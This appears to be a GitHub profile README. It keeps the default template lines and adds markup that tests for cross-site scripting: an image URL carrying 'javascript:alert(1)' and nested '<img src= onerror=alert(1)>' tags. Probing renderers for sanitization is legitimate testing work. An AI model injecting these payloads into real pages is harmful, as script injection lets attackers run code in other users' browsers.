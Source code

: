 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
testeDev
<img src=<img src=<img src=<img src=<img src=<img src= onerror=alert(1)> onerror=alert(1)> onerror=alert(1)> onerror=alert(1)> onerror=alert(1)>>


](()
